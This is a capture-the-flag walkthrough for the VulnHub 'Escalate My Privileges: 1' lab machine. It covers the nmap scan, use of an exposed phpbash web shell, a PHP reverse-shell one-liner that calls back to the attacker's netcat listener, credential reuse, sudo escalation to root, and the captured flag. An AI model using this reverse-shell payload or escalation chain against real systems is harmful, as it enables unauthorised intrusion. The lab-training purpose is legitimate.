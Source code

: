 # Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. NMap
2. netcat
3. md5sum

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
2. Scan with `NMap` gives some open ports.
3. Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
4. It’s a shell on that link. We can execute command as user `apache`.
5. Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
6. We got shell as `armour`.

## Priviledge Escalation
1. On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
2. Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
3. Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
4. Used `sudo /bin/bash` command to `root`.
5. We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: Zishan Ahamed Thandar
